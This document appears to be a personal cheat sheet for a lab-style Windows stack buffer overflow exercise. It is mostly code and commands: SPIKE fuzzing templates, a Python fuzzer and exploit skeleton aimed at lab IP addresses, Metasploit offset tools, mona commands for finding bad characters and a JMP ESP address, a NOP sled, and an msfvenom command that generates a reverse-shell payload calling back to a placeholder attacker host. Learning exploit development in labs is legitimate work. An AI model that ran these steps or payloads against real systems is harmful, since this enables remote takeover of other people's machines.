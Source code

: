# Spiking
```python
s_readline();
s_string("STATS "); # which line we are going to spike
s_string_variable("0") 


generic_send_tcp 192.168.1.70 9999 stats.spk 0 0 # spike IP 192.168.1.70 at port 9999 using stats.spk

```

# Fuzzing

```
!mona config -set workingfolder c:\mona\%p
```

### Fuzzer.py
```python
#!/usr/bin/env python3

import socket, time, sys

ip = "10.10.44.100" # target IP

port = 1337 # target port 
timeout = 5
prefix = "OVERFLOW1 " # option command 

string = prefix + "A" * 100 # payload

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```


# offset-finding EIP

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <bytes+400>
```


### exploit.py

```python
import socket

ip = "10.10.44.100"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset 
retn = "" # Return address that we want to jmp to
padding = "" # padd before payload if we are encoding payload
payload = "" 
postfix = "" # if there is extra options 

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

## finding offset

### msf

```
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l <bytes+400 >-q EIP
```

### mona

```
!mona findmsp -distance <bytes>
```

# Finding bad chars

```
\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff
```

## Inside mona

Follow dump at ESP and manually find badchars

## Using mona

```
!mona bytearray -b "\x00"
!mona compare -f C:\mona\oscp\bytearray.bin -a <ESP address>

```

# Finding jump point

## mona

```
!mona jmp -r esp -cpb "BAD_CHARS_HERE"
```

# Generate payload

## msfvenom

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "BAD_CHARS" -f c
```

# Prepend NOPs

```python
padding = "\x90" * 16
```


# mona.py

[mona.py_module](https://github.com/corelan/mona )

add module to mona's config file 

```
immunity inc\immunity Debugger\PyCommands
```

```
!mona modules
```
look for .dll with all false 

```
locate nasm_shell.py

JMP ESP

!mona find -s "\Xff\Xe4" -m <.dll>

# find jump address
```

---
Tags: #write_up #BoF 
Resources: